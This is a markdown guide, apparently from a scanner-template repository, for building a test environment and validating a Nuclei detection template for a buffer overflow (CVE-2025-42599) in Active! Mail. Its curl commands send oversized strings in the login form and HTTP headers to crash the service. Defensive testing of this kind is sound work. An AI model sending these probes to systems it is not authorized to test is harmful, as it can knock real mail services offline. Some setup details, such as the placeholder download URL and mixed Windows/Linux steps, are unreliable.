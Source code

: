 # CVE-2025-42599 Test Environment Setup

## Overview
This document provides instructions for setting up a test environment to validate the CVE-2025-42599 Nuclei template for Active! Mail stack-based buffer overflow vulnerability.

## Prerequisites
- Docker installed
- Nuclei installed
- Vulnerable Active! Mail version 6.60.05008561 or earlier

## Test Environment Options

### Option 1: Docker Container (Recommended for Testing)

```dockerfile
# Dockerfile for Active! Mail vulnerable version
FROM ubuntu:20.04

# Install dependencies
RUN apt-get update && apt-get install -y \
    wget \
    unzip \
    apache2 \
    php \
    libapache2-mod-php \
    && rm -rf /var/lib/apt/lists/*

# Download and install Active! Mail 6.60.05008561
WORKDIR /tmp
RUN wget -O active-mail.zip "https://example.com/active-mail-6.60.05008561.zip" \
    && unzip active-mail.zip \
    && cp -r active-mail/* /var/www/html/ \
    && chown -R www-data:www-data /var/www/html/

# Configure Apache
RUN a2enmod rewrite
COPY apache-config.conf /etc/apache2/sites-available/000-default.conf

# Expose port
EXPOSE 80

# Start Apache
CMD ["apache2ctl", "-D", "FOREGROUND"]
```

### Option 2: Virtual Machine Setup

1. Download Active! Mail 6.60.05008561 from vendor archives
2. Install on Windows Server 2016/2019 or Windows 10
3. Configure the mail service
4. Ensure the service is accessible on port 80/443

## Testing the Template

### 1. Basic Detection Test
```bash
# Test against vulnerable instance
nuclei -u http://target-ip -t http/cves/2025/CVE-2025-42599.yaml -debug

# Test with verbose output
nuclei -u http://target-ip -t http/cves/2025/CVE-2025-42599.yaml -v -debug
```

### 2. Validation Commands
```bash
# Check if Active! Mail is running
curl -I http://target-ip/

# Test basic overflow payload
curl -X POST http://target-ip/mail/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=$(python3 -c 'print("A"*1024)')&password=test"

# Test with malformed headers
curl -X POST http://target-ip/mail/login \
  -H "X-Forwarded-For: $(python3 -c 'print("A"*1024)')" \
  -H "User-Agent: $(python3 -c 'print("B"*1024)')" \
  -d "username=test&password=test"
```

### 3. Expected Results

#### Positive Detection:
- HTTP 500/502/503 status codes
- "Internal Server Error" in response body
- "Buffer", "Overflow", or "Stack" in error messages
- Connection close headers
- Service crash or restart

#### Negative Detection:
- HTTP 200/401/403 status codes (normal responses)
- No error messages related to buffer overflow
- Service continues running normally

## Debug Information

### Template Debug Output
The template includes debug output that shows:
- Request/response details
- Payload variations used
- Matcher conditions met
- Extracted version information

### Manual Verification Steps
1. Check application logs for crash/error messages
2. Monitor system resources during testing
3. Verify service restart after overflow
4. Check for core dumps or crash reports

## Safety Considerations

⚠️ **WARNING**: This template is designed to trigger buffer overflows and may:
- Crash the target service
- Cause data loss
- Require service restart
- Generate system logs

**Only test against authorized systems in controlled environments.**

## Troubleshooting

### Common Issues:
1. **Template not detecting vulnerability**: Check if Active! Mail is actually running
2. **False positives**: Verify version is actually vulnerable
3. **Service not responding**: Check if overflow caused crash
4. **Network issues**: Verify firewall/network connectivity

### Debug Commands:
```bash
# Check service status
systemctl status active-mail

# View application logs
tail -f /var/log/active-mail/error.log

# Monitor system resources
htop
dmesg | tail -20
```

## References
- CVE-2025-42599: https://nvd.nist.gov/vuln/detail/CVE-2025-42599
- Active! Mail Documentation: [Vendor URL]
- Nuclei Template Documentation: https://nuclei.projectdiscovery.io/
